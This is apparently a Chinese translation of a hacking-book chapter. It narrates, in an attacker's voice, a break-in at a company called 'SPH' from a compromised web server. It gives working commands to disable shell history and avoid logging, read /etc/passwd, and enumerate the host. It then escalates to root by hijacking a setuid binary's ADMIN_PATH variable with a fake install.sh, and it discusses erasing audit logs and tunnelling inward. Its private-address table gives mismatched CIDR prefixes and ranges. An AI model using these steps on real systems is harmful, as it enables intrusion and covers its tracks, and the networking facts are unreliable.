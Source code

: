 # 第三章、防火墙后面的世界

> 为什么当一个人建造一堵墙时，下一个人立刻需要知道另一边是什么？” -- *georges R.R. Martin*

利用SPH公司前端服务器上的一些漏洞，我们至少有一台服务器的控制权限了。[53]。我们现在在位于蓝色区域的服务器上拿到了一个shell。但是蓝色区域除了邮箱代理服务器，视频会议服务器和一些网站，没有任何我们正在寻找的数据。

![当前所处位置](./Chap3/1WhereWeAre.png)

蓝色区域只是我们通向绿色区域的入口。想一想。从互联网上我们是看不见绿色区域的（内部网络）;但是，通过蓝色区域，我们可以访问其中的一些服务器了。本章的目的是通过从Front Gun服务器通过蓝色区域，建立一个到绿色区域的可靠链接或隧道。

如果我们可以在途中拿下一两台服务器，那就更好了，但首先要做的事情是：我们正处在什么设备上？

## 3.1 知彼
无论是在Windows还是Linux上，首要工作就是收集所处环境的有效信息。但是，在执行任何命令之前，首先禁用 bash 的历史文件，避免我们的命令被记录下来。
```
www-data@CAREER$ unset HISTFILE
```

查看系统信息

```
www-data@CAREER$ uname -a
Linux CAREER 4.4.0-31-generic #50-Ubuntu SMP Wed Jul	13	00:06:14	UTC	2016	i686	i686	i686
GNY/Linux
www-data@CAREER$ cat /etc/passwd
[…]
redis:x:124:135::/var/lib/redis:/bin/false
redsocks:x:125:136::/var/run/redsocks:/bin/false rwhod:x:126:65534::/var/spool/rwho:/bin/false sslh:x:127:137::/nonexistent:/bin/false rtkit:x:128:138:RealtimeKit,,,:/proc:/bin/false saned:x:129:139::/var/lib/saned:/bin/false
usbmux:x:130:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
beef-xss:x:131:140::/var/lib/beef-xss:/bin/false
vboxadd:x:999:1::/var/run/vboxadd:/bin/false ftp:x:133:143:ftp daemon,,,:/srv/ftp:/bin/false
elasticsearch:x:134:144::/var/lib/elasticsearch:/bin/false debian-tor:x:135:145::/var/lib/tor:/bin/false mongodb:x:136:65534::/home/mongodb:/bin/false oinstall:x:1000:1001::/home/oinstall:/bin/sh oinstall2:x:1001:1002::/home/oinstall2:/bin/sh
[…]
```

看来我们位于一台Ubuntu服务器（使用32位架构）。当前用户是www- data，它通常对系统没有太多特权。

虽然系统上定义了许多用户，但只有我们的会话当前在计算机上处于活动状态：
```
www-data@CAREER:$ w
19:01:10 up 14:51,	1 user,	load average: 0.00, 0.00, 0.00
USER	TTY	FROM	LOGIN@	IDLE	JCPU  PCPU WHAT
www-data tty1 Thu19 0.00s 1:47 0.00s /bin/bash

```
检查网络配置，可以看到我们正位于 192.168.1.0/24 网段：
```
www-data@CAREER:$ ifconfig
eth1		Link encap:Ethernet HWaddr 08:00:27:7d:a6:c0 
            inet addr:192.168.1.46 Bcast:192.168.1.253 Mask:255.255.255.0
            inet6 addr: fe80::a00:27ff:fe7d:a6c0/64 
Scope:Link
            UP BROADCAST RUNNING MULTICAST
            MTU:1500 Metric:1
            RX packets:158729 errors:0 dropped:501 overruns:0 frame:0
            TX packets:1626 errors:0 dropped:0 overruns:0 carrier:0
            collisions:0 txqueuelen:1000
            RX bytes:18292132 (17.4 MiB) TX bytes:225556 (220.2 KiB)
```


最后，服务器没有启用本地防火墙规则，不会对我们后面要用到的数据传输技术造成影响：
```
www-data@CAREER:$ iptables -L 
Chain INPUT (policy ACCEPT)
target	prot opt source	destination

Chain FORWARD (policy ACCEPT)
target	prot opt source	destination

Chain OUTPUT (policy ACCEPT)
target	prot opt source destination
```

> 提示：请记住，我们可以使用更高级的反向shell（例如meterpreter）通过模块来自动执行这些检查。本地工具和命令清单可以在这里获取：[54]

## 3.2 第一个倒下的
有些人可能认为在拿下的第一台服务器上获取管理员权限不是必须的。其实也对，如果我们仅仅需要建立与内部网络区域的隧道的话，拿到普通权限就已经足够了。但是，如果我们想擦除审计日志、欺骗管理员、或者安装新工具，拥有管理员权限显然会更加方便。

有时候，如果运气好的话，用来获取shell的漏洞组件本身就以最高权限在运行，在这种情况下，啥都不用做，可以直接调到下一节了。

一个典型的例子，运行DBA账户的MSSQL服务器存在SQL注入漏洞。所有通过**xp_commandshell**执行的命令，都具备系统最高权限，也就没必要使用接下来介绍的这些技术了。不管怎样，我们还是聚焦在已经拿下的这台Linux服务器吧。

提权和 **setuid** 文件也不是每次都能碰到，但在linux的世界里，他们是一对完美组合。这是每一位黑客或者渗透测试人员攻击 Linux 服务器的第一反应。

在Linux发行版中，所有文件都有一个特殊属性"s"，称为 setuid 位。这允许任意用户通过文件所有者的权限来执行该文件。例如，root账号创建了一个用来删除某些重要文件导额脚本，通过对该文件添加 setuid 位，其他任何用户执行该脚本都会以root用户的权限来执行删除命令。

记住，一旦我们修改了 **setuid** 脚本，它就不再具备该能力。 我们正在寻找的，就是一个使用了未严格过滤命令的 **setuid** 脚本，用以操作环境变量，执行其他二进制文件 -- 有时我们可以控制和提权，从而欺骗它来执行我们自己的代码。

首先，通过下面的命令列出所有 **setuid** 文件：
```
CAREER$>find / -type f \( -perm -04000 -o -perm -02000 \) \-exec ls -l {} \;
r-sr-sr-x 1 oinstall adm 9 Dec 18 14:11 /app/product/def_policy
[…]
```
找到了 **def_policy** 文件。任意用户都可以用 **oinstall**账户的权限来执行该文件。也许该用户不具备root权限，但我们毕竟向前了一步。

对 **def_policy** 文件执行strings命令，查找程序中硬编码的数据：
```
www-data@career$ strings /app/product/def_policy
/lib/ld-linux.so.2
____gmon_start____
libc.so.6
setuid
exit
sprint
strnlen
malloc
system
strsep
strcmp
____libc_start_main
GLIBC_2.0 
ADMIN_PATH
%s/install.sh
```
看起来，**def_policy**程序只是一个简单的打包程序，用来执行 install.sh 脚本。'%s' 格式字符串意味着 **install.sh** 脚本的路径是从变量中获取的……比如'ADMIN_PATH'？也许吧，但是看起来程序代码中没有任何路径。基本可以确定，是在会话级别的环境变量中定义了该路径值。

有趣的地方在于，每个用户控制了自己的环境变量。我们可以这样欺骗该程序去读取攻击者控制目录中的新 install.sh 脚本。这个新的“伪造”脚本会生成一个具有 oinstall 账户权限的 **bash** 会话。

```
www-data$> export ADMIN_PATH=/tmp/
www-data$> echo -e	"#\!bin/bash\n/bin/bash" > /tmp/install.sh
www-data$> /app/product/def_policy
oinstall$> id
uid=1501(oinstall) gid=2001(adm) groups=2001(adm) ,27(sudo)
```

很好！ **oinstall** 账号不仅仅是 **adm** 组用户，还是 **sudo** 组用户。这意味着它可以提权为 root 用户：
```
oinstall@CAREER:$ sudo su
root@CAREER#> id
uid=0(root) gid=0(root) groups=0(root)
```

干掉了一个……继续干。

> 迁出 linuxprivchecker 脚本：http://www.securitysift.com/download/linuxprivchecker.py，了解一些有趣的自动采集信息的技术。

> windows 平台也有类似的工具：https://github.com/pentestmonkey/windows-privesc- check

## 3.3 搭个梯子直达天堂
现在我们已经拿下了一台机器的 root 权限，接下来逛逛蓝色区域看还能发现点什么。因为大部分信息系统都是基于 Windows 系统的，最好是在公共 DMZ 区找到并拿下一台 Windows 机器。因此，我们可以重用后文一些机器的漏洞和密码。

为了更好的开展攻击，我们需要将常用的黑客工具（比如nmap、自己写的python脚本、Powershell Empire等）上传到刚才拿下的 Linux 机器上。如果这么操作的话，咋说呢？有点“脏”。日后被攻击方开展调查的时候，将发现我们放在服务器上的所有专用工具，通过分析这些文件能理解整个攻击过程。

这就是为啥我倾向于第二种方法的原因，这种方法更“干净”，也可以说更“性感”：建立虚拟隧道。对 Linux 机器进行配置，让它接收我们所有的数据包，并且直接转发到指定的目标地址。这个目标地址从互联网是无法访问的，因为是私有地址。

{% hint style="info" %}
**私有地址**

设备在互联网上可以通过 IP 地址被访问。IPv4 由四个字节组成，通常用 X.X.X.X 表示， X 值介于 0 到 255。
有些 IP 地址被保留用于本地网络，不能用于互联网（RFC 1918）：

> 127.0.0.1 表示本机
172.16.0.0/16 (从 172.16.0.0 到 172.16.31.255)
192.168.0.0/24 （从 192.168.0.0 到 192.168.255.255）
10.0.0.0/8 （从 10.0.0.0 到 10.255.255.255）

{% endhint %}